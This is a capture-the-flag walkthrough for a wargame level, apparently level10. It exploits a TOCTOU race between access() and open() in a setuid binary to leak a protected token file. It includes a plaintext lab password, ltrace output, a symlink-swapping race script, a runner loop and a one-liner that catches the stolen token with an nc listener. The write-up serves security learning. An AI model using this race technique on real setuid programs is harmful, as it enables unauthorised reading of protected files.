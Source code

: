 # 10

Login

```b
Login

> ssh level19@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: s5cAJpM8ev6XHw998pRWG728z
```

2 files, regular stuff

```b
> ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 level10
-rw-------  1 flag10 flag10     26 token

> cat token
cat: token: Permission denied

> ./level10
./level10 file host
	sends file to host if you have access to it

> ./level10 token localhost
You don't have access to ./token
```

ltrace

```b
> ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                         = -1
^^^^^^ 🟡 
printf("You don't have access to %s\n", "token"You don't have access to token
)           = 31
+++ exited (status 31) +++
```

`access` - check if user has permissions for a file
- we don't have permission for `token`
- touch a file of our own, try again

```b
> ./level10 /tmp/tmp localhost
Connecting to localhost:6969 .. Unable to connect to host localhost

> ltrace ./level10 /tmp/tmp localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/tmp", 4)                                      = 0
printf("Connecting to %s:6969 .. ", "localhost")           = 32
                         ^^^^ 🟡 
fflush(0xb7fd1a20Connecting to localhost:6969 .. )         = 0
                                         ^^^^ 🟡 
```

Idea
- it eems the program interacts with `localhiost:6969`
- we need a valid Host IP : 
  - `127.0.0.1` or an old trick
  - `ifconfig | grep 'inet ' | awk 'NR==2 {print $2}' | cut -d ":" -f2`

With correct IP:

```b
> ./level10 /tmp/tmp $(ifconfig | grep 'inet ' | awk 'NR==2 {print $2}' | cut -d ":" -f2)
Connecting to Localhost:6969 .. Connected!
Sending file .. wrote file!
```

Inspect w/ `ltrace`:

```b
> ltrace ./level10 /tmp/tmp $(ifconfig | grep 'inet ' | awk 'NR==2 {print $2}' | cut -d ":" -f2)
.
.
.
printf("Connected!\nSending file .. "Connected!
)                     = 27
fflush(0xb7fd1a20Sending file .. )                                         = 0
open("/tmp/tmp", 0, 010)                                   = 4
      ^^^^^^^^ 🟡 here is where we hope to force our token in

read(4, "", 4096)                                          = 0
write(3, "", 0)                                            = 0
puts("wrote file!"wrote file!
)                                        = 12
+++ exited (status 12) +++
```

Maybe it sends content of our file to `localhost:6969`
- try and intercept the content
- for that we use a 2nd terminal

```b
# t1
> nc -lk 6969
```
```b
# t2
> ./level10 /tmp/tmp Localhost
> Connecting to Localhost:6969 .. Connected!
Sending file .. wrote file!
```

Figure out a way to make `./level10` to read the true `token`:
- exploit `access()`'s [TOCTOU](https://stackoverflow.com/questions/75587120/how-to-handle-toctou-problem-between-access-and-unlink) vulnerability 
- design a file to do the following:
  - when `access()` is called it checks the low-priority file
  - after that, `./level10` should `open()` and `read()` the high-priotity one

Solution: \
to trick `access` we need a file that _alternates_ its type
- a file of our own permission level
- a symlink of the same name linked to `token`
- we need an alternation script

👇

`alternate.sh`

```b
#!/bin/bash

t=/tmp/tmp

#timeout 2s bash -c '
while true; do
  touch $t
  rm -rf $t
  ln -s /home/user/level10/token $t
  rm -rf $t
done
#'
```

- a 2nd script to run `alternate` and `./level10` side by side
- a oneliner to unite two previous ones and `netcat`

`runner.s`

```b
#!/bin/bash

#timeout 2s bash -c '
while true; do
  /home/user/level10/level10 /tmp/tmp 127.0.0.1 >/dev/null
done
#'
```

`oneliner`

```b
> /tmp/alternate.sh 2>/dev/null & /tmp/runner.sh 2>/dev/null & nc -lk 6969
```
